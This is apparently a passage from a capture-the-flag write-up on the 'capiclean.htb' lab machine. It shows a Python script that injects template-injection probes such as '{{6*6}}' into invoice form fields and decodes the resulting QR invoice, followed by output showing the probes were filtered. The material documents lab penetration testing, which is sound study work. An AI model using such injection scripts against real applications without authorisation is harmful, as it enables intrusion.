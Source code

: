 ```python
        'qty': '{{6*6}}',
        'project': '{{5*5}}',
        'client': '{{4*4}}',
        'address': '{{3*3}}',
        'email-address': '{{2*2}}',
        'price': 'uwu'
    }
    resp = session.post(Routes.INVOICE, data=payload, cookies=COOKIES)
    invoice_id = BS(resp.text, 'html.parser').find('h1').text.split()[-1]
    payload = {
        'form_type': 'invoice_id',
        'invoice_id': invoice_id
    }
    resp = session.post(Routes.QR, data=payload, cookies=COOKIES)
    qr_url = BS(resp.text, 'html.parser').find('div', class_='qr-link').find('a')['href']
    invoice_url = decode_qr(qr_url)
    print(f'Invoice: {invoice_url}')
    fields = get_fields(invoice_url)
    print(fields)
```

{% endraw %}

But it's not successful, nor was XSS
```bash
└─$ py qr.py
Invoice: http://capiclean.htb/QRInvoice/invoice_3679138642.html
Workmanship

$39.99
10
$399.99

PROJECT 55
CLIENT 44
ADDRESS 33
EMAIL 22
```

Any special character is filtered out right away.

#### QR Link

Inspecting the url we see `qr_link` variable and then `qr-code` html element rendered as base64 image
